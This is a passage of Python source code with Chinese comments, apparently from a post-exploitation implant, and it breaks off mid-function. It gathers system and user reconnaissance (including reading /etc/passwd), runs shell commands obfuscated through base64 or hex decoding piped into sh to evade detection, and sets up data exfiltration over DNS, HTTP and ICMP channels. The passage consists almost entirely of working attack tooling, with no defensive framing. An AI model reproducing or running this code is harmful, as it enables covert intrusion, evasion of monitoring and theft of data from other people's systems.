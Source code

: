 ```python
    
    def gather_system_info(self):
        """收集系统信息"""
        info_commands = {
            'uname': 'uname -a',
            'network': 'ifconfig',
            'users': 'cat /etc/passwd | cut -d: -f1',
            'processes': 'ps aux | head -20'
        }
        
        system_info = {}
        for key, cmd in info_commands.items():
            obfuscated_cmd = self.obfuscator.obfuscate_bash_command(cmd)
            output = self._execute_command(obfuscated_cmd)
            system_info[key] = output
        
        return system_info
    
    def execute_obfuscated_command(self, command):
        """执行混淆后的命令"""
        # 使用随机选择的混淆技术
        techniques = [
            self._exec_base64_encoded,
            self._exec_hex_encoded,
            self._exec_python_wrapper,
            self._exec_php_wrapper
        ]
        
        technique = random.choice(techniques)
        return technique(command)
    
    def _exec_base64_encoded(self, command):
        """Base64 编码执行"""
        encoded = base64.b64encode(command.encode()).decode()
        wrapped = f"echo {encoded} | base64 -d | sh"
        return self._execute_command(wrapped)
    
    def _exec_hex_encoded(self, command):
        """十六进制编码执行"""
        hex_encoded = command.encode().hex()
        wrapped = f"echo {hex_encoded} | xxd -p -r | sh"
        return self._execute_command(wrapped)
    
    def exfiltrate_data(self, data):
        """数据外传"""
        # 使用多种外传方法
        methods = [
            self._exfil_dns,
            self._exfil_http,
            self._exfil_icmp
        ]
        
        for method in methods:
            if method(data):
                break
    
    def _exfil_dns(self, data):
        """DNS 外传"""
        # 通过 DNS 查询外传数据
        chunk_size = 30  # DNS 标签限制
        chunks = [data[i:i+chunk_size] for i in range(0, len(data), chunk_size)]
        
        for chunk in chunks:
```